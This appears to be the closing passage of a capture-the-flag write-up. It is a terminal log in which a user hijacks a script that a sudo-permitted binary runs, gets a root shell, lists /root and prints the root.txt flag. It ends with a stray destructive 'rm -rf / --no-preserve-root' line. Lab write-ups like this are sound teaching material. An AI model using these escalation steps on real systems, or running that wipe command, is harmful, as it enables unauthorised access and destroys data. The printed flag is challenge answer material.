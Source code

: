saket@ubuntu:/home/victor$ rm /tmp/challenge
rm /tmp/challenge
saket@ubuntu:/home/victor$ echo sh > /tmp/challenge
echo sh > /tmp/challenge
saket@ubuntu:/home/victor$ chmod +x /tmp/challenge
chmod +x /tmp/challenge
saket@ubuntu:/home/victor$ sudo -u root /home/victor/undefeated_victor
sudo -u root /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls -lash
ls -lash
total 92K
4.0K drwx------  5 root root 4.0K Aug 31  2019 .
4.0K drwxr-xr-x 24 root root 4.0K Aug 29  2019 ..
 12K -rw-------  1 root root 8.4K Sep  1  2019 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwx------  3 root root 4.0K Aug 30  2019 .cache
 16K -rwxr-xr-x  1 root root  14K Aug 30  2019 enc
4.0K -rw-r--r--  1 root root  305 Aug 30  2019 enc.cpp
4.0K -rw-r--r--  1 root root  237 Aug 30  2019 enc.txt
4.0K -rw-r--r--  1 root root  123 Aug 30  2019 key.txt
4.0K -rw-------  1 root root  137 Aug 30  2019 .mysql_history
4.0K drwxr-xr-x  2 root root 4.0K Aug 29  2019 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug 30  2019 root.txt
4.0K -rw-r--r--  1 root root   66 Aug 31  2019 .selected_editor
4.0K -rw-r--r--  1 root root  805 Aug 30  2019 sql.py
4.0K -rwxr-xr-x  1 root root  442 Aug 31  2019 t.sh
4.0K drwxr-xr-x 10 root root 4.0K Aug 30  2019 wfuzz
4.0K -rw-r--r--  1 root root  170 Aug 29  2019 wordpress.sql
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Tue May 25 05:18:41 PDT 2021
# cat root.txt
cat root.txt
b2b17036da1de94cfb024540a8e7075a
# exit

## rm -rf / --no-preserve-root
{% endhighlight %}

